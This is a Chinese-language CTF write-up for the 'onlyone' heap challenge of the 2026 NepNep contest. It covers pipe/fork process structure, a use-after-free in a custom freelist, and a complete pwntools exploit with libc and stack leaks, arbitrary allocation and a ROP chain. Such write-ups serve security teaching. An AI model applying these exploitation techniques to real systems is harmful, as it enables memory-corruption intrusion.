









# 2026NepNep招新赛

## onlyone

### 前置学习:

```
&stderr[-2].________pad4, &stderr[1] __
* stdin - 48, stdin + 216
&stdout[-1].__pad3, &stdout[1])
取 FILE 对象周边的内存区间起止地址
```

```
链表数据结构,偏移5100处的数据为链表头,取出5100的数据给entry,然后解引用5100里面的第二个链表数据为新的链表头
entry = qword_5100;
qword_5100 = *qword_5100;
```

**memset(entry, 0, 0x30u)**  批量填充entry后面0x30字节为0

**__isoc23_strtoul**  将字符串数字改成无符号整数

**prctl函数:**  沙箱过滤函数

**__isoc23_strtoul(input_buf, 0, 0)** 将input_buf自动转化为无符号长整型数字

```
v3为堆块存放的内容,a0123456789abcd是数组名,逐位提取的方式手工编码，而非调用 printf(%p)，这是绕过格式化函数检测的常见手法。
v3 = *(&unk_5060 + 3 * v2);
qmemcpy(v4, "0x", 2);
for ( i = 0; i <= 0xF; ++i ){
	v4[i + 2] = a0123456789abcd[(v3 >> (4 * (15 - i))) & 0xF];
	}
```

#### 进程基础

**pipe函数:**  是Linux提供的进程通信函数,可以理解为一个单向存放数据水管,一端只能写入数据,一端只能读走数据,需要一个大小为2个int的数组,为参数,管道创建成功会为数组赋值为最小的fd(第一个是读,第二个是写) 并返回0 创建失败则返回-1

**fork函数:**  创建一个子进程,不需要参数

在父进程中fork失败则返回-1,成功返回子进程pid

如果在子进程中在fork,返回0

```
#include <stdio.h>
  #include <stdlib.h>
  #include <unistd.h>

  int main(void) {
      int pipefd[2];

      if (pipe(pipefd) == -1) {
          return 1;
      }

      pid_t pid = fork();

      if (pid == -1) {
          return 1;
      }

      if (pid == 0) {
          // 子进程只负责读取
          close(pipefd[1]);

          char buffer[16] = {0};
          ssize_t n = read(pipefd[0], buffer, 15);

          if (n > 0) {
              printf("child received: %s\n", buffer);
          }

          close(pipefd[0]);
          _exit(0);
      }

      // 父进程只负责写入
      close(pipefd[0]);

      write(pipefd[1], "hello child", 11);
      close(pipefd[1]);

      return 0;
  }
```

**进程权限管理:**

ruid:登录时的身份,就相当于编号一样, 用户权限从1000开始 root权限为0

euid:唯一权限判定文件,判断该身份的权限

suid:权限备份,可通过函数将suid修改成euid从而改变权限

rgid:该身份所属的当前组,用户组权限从1000开始

egid:该身份所属组的权限

sgid:组权限备份

可变长数组gid_t[]: 保存用户所属的附加组

```
降权标准步骤: 清空附加组 修改组权限为普通,修改用户权限为普通
setgroups(0, NULL);
setresgid(1000,1000,1000);
setresuid(1000,1000,1000);
```


### 题目基本信息

保护全开

64位程序



附件给了libc版本文件和ld文件

知识点: 堆菜单 链表数据结构 栈返回 UAF

### 流程分析

进入主函数:

先开了2个管道分别为popedes和fd

然后fork出子进程,if中的代码为子进程执行流,上述说过子进程按照执行逻辑,进行fork会返回0,因而进入if

随后分配管道权限 父进程控制poprdes[1]和fd[0]  子进程控制poprdes[0]和fd[1]

随后子父进程均进行降权,原因是题目给的docker中,是以root权限进入,均需要降权,具体不用细究

**父进程:**



进入偏移1784,读取远程flag文件,并保存到`byte_5120`这个全局变量,然后把flag长度存在`qword_5220`

然后进入偏移13b9,注意这里是管道内写入一个字节,49对应ascll码的1 这个1也是子进程执行的信号

```
`sub_13B9((unsigned int)pipedes[1], &v4, 1);`
```

随后关闭这个管道,等待从fd[0]处读取6字节,然后判断字符是否是Nepnep,如果是则输出我们的flag

**子进程:**

进入偏移24d2

先送了一个printf地址,想当于告诉我们libc基地址

子进程接受到1后正常向下执行 ,非1则直接结束 这个1就是父进程给的信号,表示父进程准备好了flag

```
v2 = read(a1, &buf, 1u);
close(a1);
if ( v2 != 1 || buf != 49 )
    _exit(0);
```

该题目就是通过这2个管道传递子父进程执行顺序的信号,最终我们需要在子进程菜单内实现控制并向fd管道写入`Nepnep`

后续分析均在子进程中,需要注意子父进程uid不同,gdb调试时,可以在终端通过`pstree -p`查看子进程的数字,如图所示的34902,通常子父进程的进程号均差1,也可以不查看



然后进入循环菜单:

1.add



先是检查了一些标志位,然后进行内存分配,其中,if{qword_5100}中是一个链表,如果链表有内容,则直接拿来当堆块使用,如果没有在malloc,其实就相当于一个人造fastbin,还没有任何检验,中段检查了堆块地址是否在i/o附近,禁止了通过i/o的解法,最后设置了一些这堆块的信息,明显是一个结构体,具体标志了什么不用分析

2.wirte

正常的写入内容函数,限制了0x30,没有堆溢出

3.free



此处free并非调用free函数,而是简单修改了一些标志位,并把这个堆块写进自己维护的那个堆块链表,存在UAF的可能,注意释放后把结构体最后2个标志位做了修改

4.show



正常输出堆块内容,如果堆块可控制,也许可以泄露一些信息,其中限制了只允许使用1次

5.poke



UAF的核心函数,其中限制了必须是最后一个标志位是1的堆块才能进入,也就是被释放的堆块,也限制了只能使用2次该函数,函数内容就是允许修改该堆块的前8个字节

6.trigger

该函数给了一个格式化字符串的机会,进行了一些过滤,但是不太彻底,本文章解法没有涉及这里,不多赘述

### **逻辑思考**:

这个堆菜单实际上并不困难,poke函数可以允许直接对已经释放的堆块进行修改,而已经释放的堆块会进入自己维护的堆链表,也就意味着我们可以通过poke实现任意的堆块地址申请,申请后也可以通过show输出内容

再次思考我们的目的是需要最终向fd[1]里面写进`Nepnep`,然后让父进程吐出flag,

那么我们只需要想办法rop一段就好了,

那么如果我们要rop正常都需要控制一个返回地址,这属于栈,那么我们就需要先泄露一个栈地址,还需要先把Nepnep字符写入程序

### **完整exp:**

```
from pwn import *
import time

context.binary = elf = ELF("./pwn", checksec=False)
libc = ELF("./libc.so.6", checksec=False)
context.log_level = "debug"


#io = remote("l2cuckol-7r8c-zyru-orqs-6a7594fb31578-neptune.nepctf.com",443,ssl=True)
io = process("./pwn")
io.recvuntil(b"give you a gift: ")
printf_addr = int(io.recvline(), 16)
libc.address = printf_addr - libc.sym.printf
log.info(f"libc = {libc.address:#x}")


def menu(choice):
    io.sendlineafter(b"> ", str(choice).encode())


def add(idx):
    menu(1)
    io.sendlineafter(b"idx: ", str(idx).encode())


def write_slot(idx, data):
    menu(2)
    io.sendlineafter(b"idx: ", str(idx).encode())
    io.sendafter(b"input: ", data.ljust(0x30, b"\0"))


def free(idx):
    menu(3)
    io.sendlineafter(b"idx: ", str(idx).encode())


def show(idx):
    menu(4)
    io.sendlineafter(b"idx: ", str(idx).encode())
    return int(io.recvline(), 16)


def poke(idx, value):
    menu(5)
    io.sendlineafter(b"idx: ", str(idx).encode())
    io.sendlineafter(b"qword: ", str(value).encode())

def trigger(idx, fmt):
    menu(6)
    io.sendlineafter(b"idx: ", str(idx).encode())
    io.sendlineafter(b"data: ", fmt)

pause()

add(0)
free(0)
poke(0, libc.sym.environ)
add(1) #0
add(2) #environ
add(3) #栈地址
stack = show(3)
log.success(f"environ = {stack:#x}")

target = stack - 0x1E0  #通过gdb调试,在0x1bbb下断点确定return地址,从而得到偏移
log.info(f"target return address = {target:#x}")

write_slot(3, b"Nepnep")
free(1)
poke(1, target)
add(4)
add(5)
rop = ROP(libc)
pop_rdi = rop.find_gadget(["pop rdi", "ret"]).address
pop_rsi = rop.find_gadget(["pop rsi", "ret"]).address
log.info(f"poprdi = {pop_rdi:#x}")
log.info(f"poprsi = {pop_rsi:#x}")

set_edx = libc.address + 0xF9F22  # mov edx, 0x20; cmovne rax, rdx; ret
payload = flat(set_edx, pop_rdi, 6, pop_rsi, stack, libc.sym.write)
write_slot(5, payload)
#pause()
result = io.recvall(timeout=3)
print(result.decode(errors="replace"))
```

**exp解释:**

先正常申请释放一个堆块,然后poke修改链表结构,使得申请到我们准备的libc.environ(这里environ就是一个全局变量结构体地址里面会存放一些题目基本信息的地址,其中都是栈地址)

然后连续申请堆块到栈地址

然后show就能输出栈地址了,因为我们只能泄露在一个地址所以只能在这个堆块的位置写入我们的Nepnep,这里实际上就相当于**栈风水**了,正常做不一定会想到先在这写入字符

然后布置一下rop,就是正常控制前三个寄存器

其中要注意堆块只有0x30的大小,正常控制3个寄存器和一个返回值,需要0x38,所以这里找gadget时候,找到了一个rdx的特殊gadget,直接可以赋值好内容,不需要pop,省下0x8,刚好够用

这里还需要注意rop需要设置write函数的fd为6,实际上就是文件描述符分配问题,正常012为固定标准输入输出和错误,然后本题2个管道分别用3456,最后这个fd[1]就应该正好是6,如果不对也可以向后随便试一试,不会差很多

写好后需要思考怎么把rop注入到返回地址,实际上rop写入一定是需要通过2.write函数,那我们就直接覆盖到write函数的返回地址就好了,也就是0x1bbb偏移的函数的返回地址

先随便写一个target,通过gdb调试子进程,进菜单时候就pause(),然后在0x1bbb处下断点,执行到此处后看一下栈帧rsp再上面8个字节的位置就是ret的地址,然后根据之前的栈地址算出固定偏移最终应该是0x1e0





此为我用0x100的偏移测试最终 `fa8-dc8` 为 `0x1e0`

最后用第二次poke的机会把这个返回地址写入链表,然后add申请后即可向返回地址处写出rop,rop被读取后write返回时就会返回到我们的rop然后执行,从而把我们的Nepnep写到fd[1]

自此,拿到flag